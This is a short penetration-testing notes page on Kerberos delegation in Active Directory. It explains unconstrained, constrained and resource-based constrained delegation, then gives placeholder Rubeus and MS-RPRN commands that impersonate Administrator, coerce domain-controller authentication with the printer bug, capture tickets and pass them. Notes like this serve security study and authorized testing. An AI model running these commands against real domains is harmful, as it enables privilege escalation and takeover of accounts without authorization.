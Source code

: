 # Delegations

## Theory

Kerberos delegation allow to "reuse the end-user credentials to access resources osted on a different server"\


<figure><img src="../../../../.gitbook/assets/Pasted image 20230911095916 (1).png" alt=""><figcaption></figcaption></figure>

Delegation allows the web server to impersonate the user to access its files, making the file server believe that the user is performing the actions. The ability to relay credentials can be given to an account that has at least one SPN. The types of delegation today are three:

* Uncostrained Delegation
* Constrained Delegation
* Resource Based Constrained Delegation

## **Uncostrained Delegation**

With this type of delegation, the server or service account to which delegation is granted can impersonate the user for any service or host.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103746 (1).png" alt=""><figcaption></figcaption></figure>

## **Constrained Delegation**

The delegate will have a list of users for whom they have delegation and a list of services or servers they can access with specific delegations.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103801.png" alt=""><figcaption></figcaption></figure>

## **Resource Based Constrained Delegation**

Like the constrained delegation, but this tike the delegation authority is the resource host itself.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103731.png" alt=""><figcaption></figcaption></figure>

## Abuse

### Constrained Delegation

With the account with the permission's hash launch rubeus to ask a tgt as administrator

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
{% endcode %}

### Unconstrained Delegation

First, we need to find out the machines in the domain with unconstrained delegation. We can use PowerView for that. I used BloodHound.

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Connect to the machine with unconstrained delegation and use rubeus to monitor

```
Rubeus.exe monitor /targetuser:US-DC$ /interval:5  /nowrap
```

And now abuse the printer bug to receive a tgt

```
MS-RPRN.exe \\<$Dc> \\<$Target>
```

Now pass the [ticket](../../lateral-movement/pass-the/pass-the-ticket.md)

### Resource Based Constrained Delegation

With Rubeus

{% code overflow="wrap" %}
```
rubeus.exe s4u /user:<$Controlled User> /aes256:<%aes> /impersonateuser:Administrator /msdsspn:wsman/<%Target> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```
{% endcode %}

### Monitor for Delegation

idk if it's really a delegation&#x20;

Launch rubeus

```powershell
./Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```

&#x20;Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)

```powershell
./MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```

Rubeus is triggered

Copy the ticket and use it with rubeus on the local machine

```powershell
./Rubeus.exe ptt /ticket:<TICKET>
```
